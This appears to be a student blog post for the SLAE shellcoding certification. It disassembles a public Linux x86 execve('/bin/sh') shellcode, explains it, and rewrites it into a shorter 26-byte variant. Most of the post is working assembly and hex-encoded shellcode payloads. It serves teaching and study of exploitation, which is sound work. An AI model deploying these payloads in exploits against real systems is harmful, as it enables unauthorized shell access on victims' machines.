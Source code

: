# Shellcode - Execve("/bin/sh")

[http://shell-storm.org/shellcode/files/shellcode-863.php](http://shell-storm.org/shellcode/files/shellcode-863.php)


# Disassembly

Here I have commented on the high level functionality of the shellcode.


```assembly
global _start

section .text
global _start

section .text
_start:
    jmp short here

me:
    ; pop esi
    ; mov edi,esi
    pop edi

    xor eax,eax
    push eax    ; push 0x0    
    mov edx,esp
    
    push eax    ; push 0x0
    add esp,3   ; jump over edx
    ; lea esi,[esi +4]
    lea esi,[edi +4]    ; load string to stack "n/sh"
    xor eax,[esi]
    push eax    
    xor eax,eax
    xor eax,[edi]   ; load string to stack "//bi"
    push eax
    mov ebx,esp 

    xor eax,eax     ; again push "//bin/sh" to stack, load into ecx for argument
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb      ; execve()
    int 0x80

here:
    call me
    path db "//bin/sh"

```

Shellcode (length: 49 bytes)

```c
"\xeb\x23\x5f\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x77\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd8\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73"
```


# Changes

First, I remove the jmp, call, pop technique instructions that gets a pointer to the string "//bin/sh" as I will be pushing it to the stack later. 

I then push the string to the stack with the following instructions instead of moving the data as the original shellcode did using `lea`.

The commented code is what was removed from the original and replaced with my instructions.

```assembly
; push eax            ; load "//bin/sh" to stack
; add esp,3
; lea esi,[esi +4]
; xor eax,[esi]
; push eax
; xor eax,eax
; xor eax,[edi]
; push eax
; mov ebx,esp 
push eax
push 0x68732f6e         ; "hs/n"
push 0x69622f2f         ; "ib//"
mov ebx, esp
```

Next, I also change the way the second argument is loaded onto the stack by leveraging the ebx pointer to the string "//bin/sh". To do this, I just push a null `eax` which doesn't have to be `xor`'d since it was not touched in my previous instructions. Then push the pointer to "//bin/sh" that is currently in `ebx` and move this pointer to `ecx`.
```assembly
; xor eax,eax
; push eax
; lea edi,[ebx]
; push edi
; mov ecx,esp
push eax
push ebx
mov ecx, esp
```



# Completed Shellcode

```assembly
global _start

section .text
_start:
    ; jmp short here

me:
    ; pop esi
    ; mov edi,esi
    
    xor eax,eax     ; push ptr to 0x0 to stack for edx argument 
    push eax
    mov edx,esp    

    ; push eax            ; load "//bin/sh" to stack
    ; add esp,3
    ; lea esi,[esi +4]
    ; xor eax,[esi]
    ; push eax
    ; xor eax,eax
    ; xor eax,[edi]
    ; push eax
    ; mov ebx,esp 
    push eax
    push 0x68732f6e         ; "hs/n"
    push 0x69622f2f         ; "ib//"
    mov ebx, esp


    ; xor eax,eax
    ; push eax
    ; lea edi,[ebx]
    ; push edi
    ; mov ecx,esp
    push eax
    push ebx
    mov ecx, esp


    mov al,0xb      ; execve()
    int 0x80

; here:
;     call me
;     path db "//bin/sh"
```

New Shellcode (Length: 26)

```c
"\x31\xc0\x50\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

